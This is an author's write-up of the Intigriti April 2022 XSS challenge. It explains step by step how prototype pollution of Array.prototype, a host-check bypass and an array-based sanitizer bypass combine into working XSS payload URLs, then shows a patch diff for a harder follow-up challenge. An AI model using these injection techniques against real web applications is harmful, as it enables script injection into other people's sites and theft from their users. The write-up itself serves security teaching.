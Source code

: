 ```yaml
---
title: Intigriti 0422 XSS Challenge Author Writeup
date: 2022-04-25 08:20:16
tags: [Security]
categories: [Security]
translator: huli
---
```


<img src="/img/intigriti-0422-xss-challenge-author-writeup/cover-en.png" style="display:none">

Challenge URL: https://challenge-0422.intigriti.io/

<!-- more -->

## Solution

TL;DR

1. Pollute Array.prototype via `merge` function
2. Bypass `checkHost()`
3. Set `innerHTML` and bypass `sanitize()` to perform XSS

### Step1. Prototype pollution on Array.prototype

First, let's take a look at the `merge` function:

``` js
function merge(target, source) {
  let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]

  for(let key in source) {
    if (protectedKeys.includes(key)) continue

    if (isPrimitive(target[key])) {
      target[key] = sanitize(source[key])
    } else {
      merge(target[key], source[key])
    }
  }
}

function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

In the `merge` function, `__proto__` is blocked, but we can bypass it using `constructor.prototype`.

Then, below is the key of the first step:

``` js
const qs = m.parseQueryString(location.search)

let appConfig = Object.create(null)
appConfig["version"] = 1337
appConfig["mode"] = "production"
appConfig["window-name"] = "Window"
appConfig["window-content"] = "default content"
appConfig["window-toolbar"] = ["close"]
appConfig["window-statusbar"] = false
appConfig["customMode"] = false

if (qs.config) {
  merge(appConfig, qs.config)
  appConfig["customMode"] = true
}
```

Although we can't pollute `Object.prototype` because `appConfig` is created from `Object.create(null)`, we can pollute `Array.prototype` via `appConfig['window-toolbar']` which is an array!

So, we can pollute `Array.prototype` by providing a config object like this:

```
config[window-toolbar][constructor][prototype][0]=abc
// equals to ['close'].constructor.prototype.0 = 'abc'
```

But the question is, what property should be polluted? 

### Step2. Bypass checkHost

There is another call to `merge`, and it's the second part of the challenge:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}

let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

We need to make `checkHost()` return `true` to perform another merge call. 

In `checkHost`, it checks if hostname is localhost or port is 8080, let's take a closer look at the check:

``` js
function checkHost() {
  const temp = location.host.split(':')
  const hostname = temp[0]
  const port = Number(temp[1]) || 443
  return hostname === 'localhost' || port === 8080
}
```

It seems invulnerable, but what if `location.host` has no port?

For example, assumed `location.host` is `intigriti.io`, then `temp` becomes `['intigriti.io']`, and `temp[1]` is `undefined` because the length of the array is 1.

Here comes a cool way to bypass the check, what if `Array.prototype[1]` has been polluted? 

The JavaScript engine will look up `Array.prototype[1]` since `temp` has no property `1`. So, combined with the step1, we can pollute `Array.prototype[1]` to bypass the check:

```
config[window-toolbar][constructor][prototype][1]=8080
```

By the way, I got this idea from another challenge called `vm-calc` made by [@Strellic_](https://twitter.com/Strellic_) in DiceCTF 2022, kudos to the creator.

### Step3. Override innerHTML

After bypass the check, we have another merge call:

``` js
let devSettings = Object.create(null)
devSettings["root"] = document.createElement('main')
devSettings["isDebug"] = false
devSettings["location"] = 'challenge-0422.intigriti.io'
devSettings["isTestHostOrPort"] = false

if (checkHost()) {
  devSettings["isTestHostOrPort"] = true
  merge(devSettings, qs.settings)
}
```

`devSettings["root"]` is an HTML element, so we can use `?settings[root][innerHTML]` to set it's innerHTML and try to perform XSS.

But, it's not gonna work for two reasons.

First, there is a `sanitize` function for filtering `<` and `>`.

Second, the element only inserted to DOM after `m.mount()`, the content will be override by mithril.js


For the first issue, we can resolve it by using a bug in `sanitize` function:

``` js
function sanitize(data) {
  if (typeof data !== 'string') return data
  return data.replace(/[<>%&\$\s\\]/g, '_').replace(/script/gi, '_')
}
```

What if `data` is an array? For example, `['<a>hello</a>']`?

Because it's not a string, so it won't be sanitized, the function just return the original value. When you assign this array to `innerHTML`, it casts to string.

So, we can use `?settings[root][innerHTML][0]=<svg onload=alert(1)>` to bypass the sanitizer.

We are close to the end but need to address the last issue. The content of the element will be override by `m.mount` so our payload in `innerHTML` won't work, how should we resolve this?

The idea is simple, what if we can set `innerHTML` to `document.body` instead of `<main>`? Then our payload won't be override by mithril.js

There is a property called [ownerDocument](https://developer.mozilla.org/zh-TW/docs/Web/API/Node/ownerDocument), we can access `document` via this.

So, we can set innerHTML on body and perform XSS this way:

```
config[window-toolbar][constructor][prototype][1]=8080
settings[root][ownerDocument][body][innerHTML][0]=<svg onload=alert(document.domain)>
```

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][ownerDocument][body][innerHTML][0]=%3Cstyle%20onload%3Dalert(document.domain)%3E

There is another magic to solve the issue without overriding `document.body.innerHTML`.

As pointed out [here](https://github.com/terjanq/Tiny-XSS-Payloads/blob/5e8603974ef878e1230ae05e7f79b9467d862e2c/payloads.js#L93), `<img src=x onerror=alert(1)>` works even before inserted into the DOM. We can use this magic to set `root.innerHTML` and get XSS.

URL:
https://challenge-0422.intigriti.io/challenge/Window%20Maker.html?config[window-toolbar][constructor][prototype][1]=8080&settings[root][innerHTML][0]=%3Cimg%20src%3Dx%20onerror%3Dalert(document.domain)%3E

## Plot twist

What if I told you that all the solutions above are unintended?

The challenge was easier than I thought because I made a few bugs, making the intended solution unnecessary and redundant. It’s like there should be five steps for solving the challenge, but you can solve it in step2 because of the bugs.

The challenge should be more complex and interesting.

So, here comes **the revenge of Intigriti 0422 challenge**!

I patched the bugs and hosted the fixed challenge on GitHub, here is the challenge URL: https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422

You can found the diff below:

``` diff
function sanitize(data) {
- if (typeof data !== 'string') return data
+ if (typeof data !== 'string') data = String(data)

function merge(target, source) {
- let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m"]
+ let protectedKeys = ['__proto__', "mode", "version", "location", "src", "data", "m", "Object"]
```

The revenge of Intigriti 0422 challenge runs until `2022-05-01T23:59:59+00:00`, you can DM me on [Twitter](https://twitter.com/aszx87410) if you find the solution.

Please noted that the revenge of Intigriti 0422 challenge is a challenge **hosted by my own, not Intigriti**, so there is no swag voucher for the winners.
